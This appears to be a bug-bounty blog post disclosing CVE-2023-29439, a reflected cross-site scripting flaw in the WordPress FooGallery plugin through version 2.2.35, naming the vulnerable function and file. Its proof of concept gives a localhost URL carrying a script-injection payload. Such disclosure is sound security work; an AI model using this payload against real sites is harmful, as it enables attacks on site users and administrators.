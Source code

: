 ```yaml
---
title: CVE-2023-29439(WordPress FooGallery Plugin)
date: 2023-04-07 22:47:00 +0800
categories: [bugbounty, webhacking]
tags: [WordPress]
---
```


## Vulenerability details
---

### Description
In Foogallery 2.2.35 and earlier, the function `foogallery_image_editor_modal` in `foogallery/includes/admin/class-gallery-attachment-modal.php` is vulnerable to XSS attack.

### Pre-requisite
- Unauthenticated

### Proof-of-Concept
1. Foogallery Settings → Admin → Enable Advanced Attachment Modal 
2. Send `http://localhost:8080/wp-admin/post-new.php?post_type=foogallery&post=”><script>alert(1)</script>`

## References
---

[CVE-2023-29439](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-29439)
